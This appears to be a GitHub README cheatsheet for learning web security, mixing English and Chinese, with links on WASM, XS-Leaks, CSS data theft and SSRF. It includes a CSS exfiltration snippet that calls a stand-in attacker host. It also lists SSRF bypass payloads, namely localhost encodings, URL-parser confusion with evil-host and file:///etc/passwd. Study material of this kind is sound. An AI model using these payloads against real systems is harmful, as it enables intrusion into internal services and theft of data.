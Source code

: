 # Security Learning    
Cheatsheet, Links, Enjoy it  ☕️  

| Topic        | Des           |
| ------------- |:-------------:|
| [How to take good practice](#how-to-take-a-good-practice) | learn security, read source code... |
| [WASM](#wasm) | Web Assembly |
| [Frontend](#frontend) | Browser knowledge |
| [XSS](#xss) | XSS |
| [SSRF](#ssrf) | SSRF |


# How to take a good practice
* [安全研究者的自我修养](https://mp.weixin.qq.com/s?__biz=MzU0MzgzNTU0Mw==&mid=2247483913&idx=1&sn=2a0558592e072389e348dc8f7c6223d1&chksm=fb0416f1cc739fe7aed6f45167dc5a555974aaeb250cdcdc3bdd973ae151b8534a7c2cef6c43&scene=21#wechat_redirect)  
* [So you want to be a web security researcher?](https://portswigger.net/blog/so-you-want-to-be-a-web-security-researcher)  
* [如何阅读一份源代码？](https://www.codedump.info/post/20190324-how-to-read-code/)  

# WASM
* [WebAssembly Concepts
](https://developer.mozilla.org/en-US/docs/WebAssembly/Concepts)  
* [Using the WebAssembly JavaScript API
](https://developer.mozilla.org/en-US/docs/WebAssembly/Using_the_JavaScript_API)  
* [Introduction to WebAssembly](https://sensepost.com/blog/2018/introduction-to-webassembly/)  
* [玩轉 WebAssembly && 逆向](https://blog.1pwnch.com/web/reverse/2019/05/22/Say-Hello-to-WASM/#more)

# Frontend
* [你真的会使用XMLHttpRequest吗?](https://segmentfault.com/a/1190000004322487)  
* [SOP與CORS安全詳解](https://jiwo.org/ken/detail.php?id=2393)  

# XSS
## XS-Leaks
* [Exposing Intranets with reliable Browser-based Port scanning](https://portswigger.net/blog/exposing-intranets-with-reliable-browser-based-port-scanning)  
* [从35c3CTF的filemanager题目中学到的一个小tips](https://blog.wonderkun.cc/2018/12/30/%E4%BB%8E35c3CTF%E7%9A%84filemanager%E9%A2%98%E7%9B%AE%E4%B8%AD%E5%AD%A6%E5%88%B0%E7%9A%84%E4%B8%80%E4%B8%AA%E5%B0%8Ftips/#more)  
* [github-xsleaks](https://github.com/xsleaks/xsleaks/wiki)  
* [secret note keeper -- Facebook CTF 2019](https://sectt.github.io/writeups/FBCTF19/secret_note_keeper/README)  
* [gimme-a-bit-exploring-attacks-in-the-post-xss-world](https://speakerdeck.com/lmt_swallow/gimme-a-bit-exploring-attacks-in-the-post-xss-world)  

雖然和XSS一樣是跨域偷信息的技巧，但因為受限於SOP所以不是直接回傳信息，而是利用盲注: **配合爆破觀察瀏覽器的行為**(猜中和沒猜中頁面會有何差異)! 至於如何跨域觀察瀏覽器的行為呢? 特定信息是可以跨域傳送的，像是iframe count就不受SOP的限制，樓上35c3的filemanager就是利用onload數量和xss-auditor來跨域爆破出flag的!  

## Steal data with CSS
* [使用CSS窃取数据：攻击与防守](http://www.fwheart.club/2019/04/08/[%E8%AF%91]%E4%BD%BF%E7%94%A8CSS%E7%AA%83%E5%8F%96%E6%95%B0%E6%8D%AE%EF%BC%9A%E6%94%BB%E5%87%BB%E4%B8%8E%E9%98%B2%E5%AE%88/)  

在頁面中注入css，利用attribute selector，若match則傳送特定query (`{background:url("https://attack.host/aa");}`) 到自己的server以竊取資訊!  

# SSRF
Find server's API which will send request  
## Bypass IP, URL limit
```c
127.0.0.1
127.0.1
127.1
0.0.0.0   // linux
0.0
0
127.0.0.1.xip.io
0x7f000001
2130706433
017700000001
ⓛⓞⓒⓐⓛⓗⓞⓢⓣ   // enclosed alphanumerics
[::]
// use to port to bypass ip segment limit
127.0.0.1:80

// intranet
10.0.0.0/8   // 10.0.0.0 ~ 10.255.255.255
172.16.0.0/12   // 172.16.0.0 ~ 172.31.255.255
192.168.0.0/16  // 192.168.0.0 ~ 192.168.255.255
127.0.0.0/8
0.0.0.0/8
```  
* Obfuscation: double URL-encoding  
* According to RFC3968  
  url preceded by a double slash, terminated by the next slash, `?` or `#`, or the end of url.  
  check url supports `@` (embedded credential) or not, combine following payloads with obfuscation  
  * `evil-host#@expected-host`  
  * `expected-host#@evil-host:evil-port:expected-port`  
  * `expected-host@evil-host`  
  * `evil-host#expected-host`  

Match rules:  
```php
// php
parse_url():
host: the host after the last @

// libcurl
host: the host after the first @
```

## 302 Redirect bypass  
Check only first time and ignore the second time  
find redirect vulnerability e.g. `http://aaa.com/a?req=/b`  
put into API **which is already believed by server** e.g. `api=http://aaa.com/a?req=evil-host`

## Protocol
* `dict://<user-auth>@<host>:<port>/`  
* `sftp://`  
* `file://`  
  ```c
  file:///etc/passwd
  // the part of first two slashes after file is <protocol>
  // the third slash is <root dir>
  file://domain/etc/passwd
  ```
* `tftp://`  
* `ldap://`  
* `gopher://`  
  [利用 Gopher 协议拓展攻击面](https://blog.chaitin.cn/gopher-attack-surfaces/)

## Blind-SSRF

## Some more challenges?
* Only partial url is controlled?  


## Tool
* [requestbin](https://requestbin.com/)  
* [CEYE](http://ceye.io/)

## Reference
* [Portsigger material](https://portswigger.net/web-security/ssrf)  
* [了解SSRF，這一篇就足夠了](https://xz.aliyun.com/2115)  
* [SSRF testing resources](https://github.com/cujanovic/SSRF-Testing)  
* [談一談如何在python開發中拒絕SSRF漏洞](https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html)  
* [SSRF 學習紀錄](https://hackmd.io/@Lhaihai/H1B8PJ9hX?type=view)
